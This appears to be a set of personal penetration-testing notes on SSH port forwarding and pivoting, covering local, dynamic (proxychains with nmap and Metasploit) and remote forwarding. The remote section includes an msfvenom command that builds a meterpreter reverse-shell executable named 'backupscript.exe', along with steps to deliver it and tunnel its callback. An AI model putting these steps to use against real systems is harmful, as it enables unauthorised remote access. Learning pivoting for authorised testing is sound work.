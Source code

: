 ### Local Port Forwarding

This setup creates a new port on your local machine (`[local_port]`), which forwards traffic to a specific destination on the remote machine (`[target_ip]:[target_port]`). If a service is accessible remotely on a particular IP and port, local port forwarding allows you to access it through your machine's port.

```bash
ssh {-N} -L [local_port]:[target_ip]:[target_port] [user]@[target]
```

Examples:

Opens 3389 locally. Connected to 3389 locally will forward traffic to 10.1.1.10 on port 3389:

```bash
ssh {-N} -L 3389:10.1.1.10:3389 [user]@[target]
```

```bash
 ssh {-N} -L [local_port]:127.0.0.1:[target_port] [user]@[target]
```

#### Port Forwarding Multiple Ports

```bash
ssh -L 1234:localhost:3306 -L 8080:localhost:80 ubuntu@10.129.202.64
```

Example:

```bash
ssh -L [local_port]:[target_ip]:[target_port] -L [local_port]:[target_ip]:[target_port] [user]@[target]
```

### Dynamic Port Forwarding

Useful when we don't know what port we need to connect to. To be used with `proxychains` or a `socks4/5` connection in a web browser. `socks4` only supports `TCP` whereas `sock5` supports both `TCP` and `UDP`.

```bash
sudo ssh {-N} -D 127.0.0.1:1080 [user]@[target]
```

Proxychains Config:

```
socks5	127.0.0.1 1080
```

Then use proxychains with `nmap` to scan a target:

```bash
proxychains -q nmap -sT -Pn x.x.x.x
```

For web browsing, configure a suitable proxy:

![[Pasted image 20250203111426.png]]

Can also use other applications with proxychains:

```bash
proxychains -q msfconsole -q
proxychains xfreerdp
```
### Remote Port Forwarding

This setup allows the attacker's machine to receive connections on a specified port and forward traffic through an intermediary **pivot point** to reach a service running locally on the target machine. Since the target has no direct route to the attacker, a reverse shell or direct connection would fail. However, the pivot point, which has communication with both the attacker and the target, can act as a bridge.

![[Pasted image 20250203121025.png]]

Example Using Metasploit to obtain a shell on the Target:

```bash
msfvenom -p windows/x64/meterpreter/reverse_https lhost=<pivot_point> -f exe -o backupscript.exe LPORT=<port_to_listen_to_on_pivot_point>
```

Transfer exe to Target.

From Attacker:

```bash
ssh -R <PivotPointIP>:<port_to_listen_to_on_pivot_point>:0.0.0.0:<attacker_listen_port> ubuntu@<PivotPointIP> -vN
```

